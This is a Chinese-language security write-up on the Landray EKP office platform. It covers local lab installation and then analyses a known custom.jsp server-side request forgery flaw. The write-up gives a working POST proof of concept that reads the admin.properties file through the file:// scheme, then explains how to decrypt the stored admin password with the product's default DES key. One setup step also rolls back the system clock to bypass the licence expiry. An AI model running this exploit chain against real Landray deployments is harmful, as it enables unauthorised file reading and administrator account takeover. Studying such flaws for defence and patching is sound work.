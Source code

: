 # 蓝凌EKP

## 环境安装
*   （1）安装mysql、sql server等数据库之一，创建一个名为ekp的数据库，字符集设置为UTF-8
*   （2）获取安装文件：linux64.zip，ekp.zip，将二者解压放在同一目录下，例如`C:\Users\Administrator\Desktop\v15\`下
*   （3）windows下要求安装有jdk7，并配置`JAVA_HOME`环境变量
*   （4）修改系统时间至2021-04-26之前（根据自身Landray的授权截止时间更改）
*   （5）复制ekp文件夹中`web-safe.xml`的内容到`web.xml`。（直接覆盖）
*   （6）切到目录的`\linux64\tomcat\bin`，命令行中执行`.\catalina.bat run`启动服务器
*   （7）服务成功启动后访问，http://ip:8080/ekp/admin.do，此时页面密码为`Password1`（这个密码位于`/ekp/WEB-INF/KmssConfig/admin.properties`）
*   （8）根据前面配置的数据库，更改数据库连接url（将服务器地址landray.com.cn换成本机的，如127.0.0.1），测试数据库连接。另外，可修改附件存放地址，默认为`C:\landray\kmss\resource`。修改完页面配置后，点击保存，会要求重启服务器
*   （9）重启服务器之前，复制ekp文件夹中的`web-normal.xml`到`web.xml`（此处需要注意，更改了第五步中的web.xml，否则启动失败）。然后再执行`.\catalina.bat run`启动服务器
*   （10）重启成功后，访问`http://ip:8080/ekp/sys/profile/index.jsp`，登陆的默认用户名密码为：`admin 1`，然后系统会要求更改`1`这个过于简单的密码
*   （11）访问`http://ip:8080/ekp/sys/profile/index.jsp`进入蓝凌后台，然后选择`运维管理-管理员工具箱-系统初始化`，进行系统初始化操作
*   （12）如果想要调试蓝凌EKP的代码，可以在服务器启动时采用命令`.\catalina.bat jpda start`启动服务器，这样默认的监听端口为8000

## 路由分析

## 已知漏洞
 - [1.custom.jsp文件读取漏洞](#custom文件读取)
 - [2.admin.do jndi漏洞](#jndi攻击admin)

### custom文件读取
custom.jsp文件内容如下
```jsp
<%@page import="com.landray.kmss.util.ResourceUtil"%>
<%@page import="net.sf.json.JSONArray"%>
<%@page import="net.sf.json.JSONObject"%>
<%@ page language="java" pageEncoding="UTF-8"%>
<%@ taglib prefix="c" uri="http://java.sun.com/jsp/jstl/core"%>
<%
	JSONObject vara = JSONObject.fromObject(request.getParameter("var"));
	JSONObject body = JSONObject.fromObject(vara.get("body"));
	if(body.containsKey("file")){
%>
<c:import url='<%=body.getString("file") %>' charEncoding="UTF-8">
	<c:param name="var" value="${ param['var'] }"></c:param>
</c:import>
<% }%>
```
其中的两个jsp标签`<c:import>`和`<c:param>`。`<c:import>`用于请求本地或远程数据/文件，其中必须要传入url参数，url可以是相对路径和绝对路径。`<c:param>`用于指定url的参数

也就是标签部分存在两个值，一个是url，另外一个是加参数后的url。如果传入的url和param如下，那么加参数后的url为`http://a.com?id=test`，会向这个url发起请求，造成SSRF。
```
<c:import url="http://a.com" > 
<c:param name="id" value="test" /> 
</c:import>
```

然后看一下poc，访问路径就是jsp文件在ekp文件夹下的绝对路径，POST的内容需要符合JSON格式，赋值给参数var。通过SSRF利用file协议来读取文件
```
POST /ekp/sys/ui/extend/varkind/custom.jsp
Content-Type: application/x-www-form-urlencoded

var={"body":{"file":"file:///C:/Users/Administrator/Desktop/v15/ekp/WEB-INF/KmssConfig/admin.properties#"}}
```
这样poc经过jsp，url和url加上var参数的值分别如下。也这是为什么url后需要一个`#`来截断（Windows下），以正常读取url对应的文件，否则会报错file not found。
```
url=file:///C:/Users/Administrator/Desktop/v15/ekp/WEB-INF/KmssConfig/admin.properties#

urlWithParams=file:///C:/Users/Administrator/Desktop/v15/ekp/WEB-INF/KmssConfig/admin.properties#?var={"body":{"file":"file:///C:/Users/Administrator/Desktop/v15/ekp/WEB-INF/KmssConfig/admin.properties#"}}
```
读取admin.properties文件，内容如下，其中password是DES加密的
```
password = Ac6OXgTtn4AqNRCxWmSwhg==\r
kmss.properties.encrypt.enabled = true
```
通过在线DES解密网站：http://tool.chacuo.net/cryptdes, 在密码处填入默认密钥`kmssAdminKey`，和待解密的文本`Ac6OXgTtn4AqNRCxWmSwhg==`，进行DES解密后得到
```
Password1
```

### jndi攻击admin
